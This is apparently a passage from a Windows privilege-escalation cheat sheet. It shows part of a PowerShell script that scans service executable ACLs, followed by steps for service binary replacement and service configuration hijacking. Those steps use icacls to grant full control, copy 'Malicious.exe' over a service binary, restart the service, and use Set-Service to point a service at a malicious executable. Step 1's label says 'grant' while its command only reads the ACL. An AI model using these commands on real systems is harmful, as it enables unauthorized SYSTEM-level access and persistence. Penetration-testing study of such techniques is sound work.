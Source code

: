 ```powershell
        # Check for matches in the ACL entries
        $matchingEntries = $currentACL | Where-Object { $_ -match ($patterns -join "|") }

        # If any matching ACL entry is found, write the service and matching ACLs to the Step 2 output file
        if ($matchingEntries.Count -gt 0) {
            "Executable: $executable" | Out-File -FilePath $Step2_OutputFilePath -Append -Encoding UTF8
            $matchingEntries | Out-File -FilePath $Step2_OutputFilePath -Append -Encoding UTF8
            "`n" | Out-File -FilePath $Step2_OutputFilePath -Append -Encoding UTF8 # Add a newline for readability
        }
    }
    catch {
        # If an error occurs (e.g., if the executable path doesn't exist), log it to the output file
        "Failed to retrieve ACL for executable: $executable" | Out-File -FilePath $Step1_OutputFilePath -Append -Encoding UTF8
        "`n" | Out-File -FilePath $Step1_OutputFilePath -Append -Encoding UTF8
    }
}
```

#### Service Executable Replacement
If you have `WRITE` or `FULL CONTROL` access over a service’s executable, you can replace it with a malicious binary to escalate privileges.
1. Grant full control over a vulnerable service's binary to the current user (requires administrative privileges):
	```powershell
	Get-Acl -Path '<executable_path>' | Format-List
	```
2. Grant full control over the service executable to the current user (if needed):
	```powershell
	icacls <path_to_service_executable> /grant <username>:F
	```
3. Replace the binary or modify its ACL:
	```powershell
	cp C:\Path\To\Malicious.exe C:\Vulnerable\Path\service.exe
	```
4. Restart the service to trigger privilege escalation:
	```powershell
	Restart-Service <service_name>
	```

#### Service Configuration Hijacking
If the user has `WRITE` or `FULL CONTROL` on the service’s configuration, it can be modified to point to a malicious executable:
1. `Set-Service`: Modify an existing service.
	```powershell
	Set-Service -Name "<malicious_service_name>" -BinaryPathName "C:\Path\To\Malicious.exe" -Description "Malicious Service" -StartupType Automatic
	```
